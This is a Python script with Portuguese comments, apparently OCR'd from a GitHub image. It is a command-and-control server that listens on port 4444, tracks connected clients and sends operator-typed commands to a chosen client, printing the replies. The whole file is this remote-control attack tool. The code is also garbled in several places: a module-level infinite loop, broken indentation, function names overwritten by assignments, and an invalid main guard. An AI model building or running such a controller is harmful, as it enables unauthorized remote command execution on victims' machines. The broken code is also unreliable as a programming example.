 import socket
import threading

# Lista de conexão e endereços
conexoes =[]
enderecos =[]

def handle_client(conn,addr):
  print(f"[+]Nova conexao de={addr}")
  conexoes.append(conn)
  enderecos.append(addr)
  try:
    while True:
     data = conn.recv(1024).decode()
     if not data:
        break
  except:
    pass
  finally:
    conn.close()
    conexoes.remove(conn)
    enderecos.remove(addr)
    print(f"[-]Conexão encerrada:{addr}")

def main():
  host = "0.0.0.0"
  porta =4444
  server=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  server.bind((host,porta))
  server.listen(9)
  print(f"[*]Serverdor C2 escutando em {host}:{porta}")

  # Thread para aceitar conexões
  threading.Thread(target=aceitar_conexoes,args=(server,)).start()

while True:
   comando=input("\n[C2]Comando ('listar' para ver conexões,'selecionar <n>'para escolher uma):")
   if comando=="listar":
       listar_conexoes=list()
   elif comando.startswith("selecionar"):                                                                                                                                             
    try:
       idx=int(comando.split()[1])
       interagir_conexao = interagir_conexao(idx)
    except:
       print("[-]índice inválido.")               
   elif comando=="sair":
      break

def aceitar_conexoes(server):
     while True:
      conn,addr = server.accept()
     thread = threading.Thread(target=handle_client,args=(conn,addr))
     thread.start()

def listar_conexoes():
 print("\n[+]Conexões ativas:")
 for i,addr in enumerate(enderecos):
   print(f"{i}:{addr}")

def interagir_conexao(idx):
   try:
    conn = conexoes[idx]
    addr = enderecos[idx]
    print(f"\n[+] Interagindo com:{addr}")
    while True:
     comando=input(f"C2({addr}):")
     if comando.lower()=="sair":
      break
     if comando:
       conn.send(comando.encode())
       resposta=conn.recv(1024).decode()
     print(f"{addr}>{resposta}")
   except IndexError:
     print("[-]Índice inválido.")
   except Exception as e:
     print(f"[-]Erro ao interagir com a conexão:{str(e)}")

if __name__:'_main_'
main()
